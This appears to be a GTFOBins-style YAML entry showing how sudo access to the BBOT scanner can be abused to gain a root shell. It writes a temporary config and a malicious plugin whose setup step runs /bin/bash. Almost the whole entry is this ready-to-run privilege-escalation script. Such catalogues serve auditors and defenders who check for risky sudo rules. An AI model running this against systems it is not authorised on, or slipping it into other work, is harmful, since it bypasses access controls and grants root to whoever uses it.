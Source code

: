 ```yaml
---
functions:
  sudo:
          - description: This command creates a couple of malicious YML config files and BBOT plugins, then inits BBOT and triggers the malicious plugin.
          code: |
                TEMP_YMLCONF=$(mktemp /tmp/XXXXXXXX.yml)
                TEMP_PLUGINDIR=$(mktemp -d /tmp/XXXXXXXX)
                TEMP_PLUGIN=$TEMP_PLUGINDIR/init_userbash.py
                TEMP_OUTDIR=$(mktemp -d /tmp/XXXXXXXX)
                PLUGIN_NAME=init_userbash
                cat << EOF > $TEMP_YMLCONF
                targets: localhost
                output_dir: $TEMP_OUTDIR
                module_dirs: $TEMP_PLUGINDIR
                EOF
                cat << EOF > $TEMP_PLUGIN
                import os
                from bbot.modules.base import BaseModule
                class init_userbash(BaseModule):
                    async def setup(self):
                        self.hugeinfo(f"[*] Starting a new user shell ......")
                        os.system("/bin/bash")
                    async def handle_event(self, event):
                        self.hugeinfo(f"[*] Exiting shell ......")
                EOF
                sudo bbot -p $TEMP_YMLCONF -m $PLUGIN_NAME -t localhost
---
```

